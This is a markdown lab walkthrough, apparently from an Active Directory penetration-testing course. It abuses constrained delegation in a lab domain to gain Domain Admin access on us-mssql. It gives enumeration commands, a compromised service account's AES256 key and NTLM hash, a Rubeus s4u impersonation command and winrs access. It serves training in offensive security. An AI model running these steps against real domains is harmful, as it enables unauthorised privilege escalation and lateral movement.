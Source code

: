# Hands-on 12: Constrained Delegation

- [Hands-on 12: Constrained Delegation](#hands-on-12-constrained-delegation)
  - [Task](#task)
  - [Abuse Constrained delegation in us.techcorp.local to escalate privileges on a machine to Domain Admin](#abuse-constrained-delegation-in-ustechcorplocal-to-escalate-privileges-on-a-machine-to-domain-admin)

---

## Task

- Abuse Constrained delegation in `us.techcorp.local` to escalate privileges on a machine to Domain Admin.

<br/>

---

## Abuse Constrained delegation in us.techcorp.local to escalate privileges on a machine to Domain Admin

Import AD Module:

```
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll; Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

<br/>

Enumerte computer / user with Unconstrained Delegation:

```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

![picture 17](images/9c46a72893f19632fc07d8b1c9c5eb4864d577779ffba6a885415dd4fa2b245b.png)  

- `us\appsvc` has Constrained Delegation

<br/>

In [Hands-On 10](l10-Exchange.md), we have compromised `us\appsvc` credential:

Note:
`us\appsvc`
- Password: ?
- AES256: `b4cb0430da8176ec6eae2002dfa86a8c6742e5a88448f1c2d6afc3781e114335`
- NTLM: `1d49d390ac01d568f0ee9be82bb74d4c`

<br/>

Use **Rubeus.exe** to request TGT and TGS on `us-mssql`:

```
.\Rubeus.exe s4u /user:appsvc /aes256:b4cb0430da8176ec6eae2002dfa86a8c6742e5a88448f1c2d6afc3781e114335 /impersonateuser:administrator /msdsspn:CIFS/us-mssql.us.techcorp.local /altservice:HTTP /domain:us.techcorp.local /ptt
```

![picture 18](images/1be3ecd428b34f9dc7c0b9504c1a95bb7b71b6e9b4aa25dda4d88389da08e294.png)  

![picture 19](images/b38e4d6ce77988d6167ec58f5e5a93e9aa1f709db3c5f3e3b0215e3adc2a279b.png)  

<br/>

Try to access `us-mssql`:

```
winrs -r:us-mssql.us.techcorp.local cmd.exe
```

![picture 21](images/f0c279fca4938abf8a0792ffcd352e5490abe4399dd9e06305a561ee70bb7a4f.png)  
 

- As shown, we can access `us-mssql` as `us\administrator`.
